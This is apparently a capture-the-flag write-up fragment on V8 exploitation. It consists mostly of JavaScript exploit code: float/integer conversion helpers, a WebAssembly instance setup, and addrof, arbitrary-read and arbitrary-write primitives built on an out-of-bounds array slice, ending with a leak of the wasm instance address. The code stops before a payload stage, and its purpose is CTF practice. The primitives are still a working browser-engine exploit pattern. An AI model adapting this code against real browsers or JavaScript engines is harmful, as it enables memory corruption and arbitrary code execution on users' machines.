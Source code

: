 ##### TO-DO (Is this pwn or web?) v8 exploitation. ( Update. Challenge completed.)

```javascript
//Chuked from faith's(author) blog.
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function gethex(val) {
	return val.toString(16);
}

//Chuked from faith's(author) blog.
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var float_arr = [1.1];
var float_arr_one = float_arr.slice(0);

var obj = {"A":1};
var obj_arr = [obj];

var float_arr_element_pointer = ftoi(float_arr_one[2])
console.log("Element pointer: 0x"+gethex(float_arr_element_pointer&0xffffffffn));

function addrof(object) {
	obj_arr[0] = object;
	var temp_arr = float_arr.slice(0);
	temp_arr[2] = itof(float_arr_element_pointer+0x4cn);
	var val = ftoi(temp_arr[0]);
	return val;
}

function arb_read(addr) {
	var temp_arr = float_arr.slice(0);
	temp_arr[2] = itof(addr);
	return ftoi(temp_arr[0]);
}

function arb_write(addr, val) {
	var temp_arr = float_arr.slice(0);
	temp_arr[2] = itof(addr);
	temp_arr[0] = itof(val);
}

wasm_addr = addrof(wasm_instance);
wasm_leak = arb_read(wasm_addr+0x60n);
```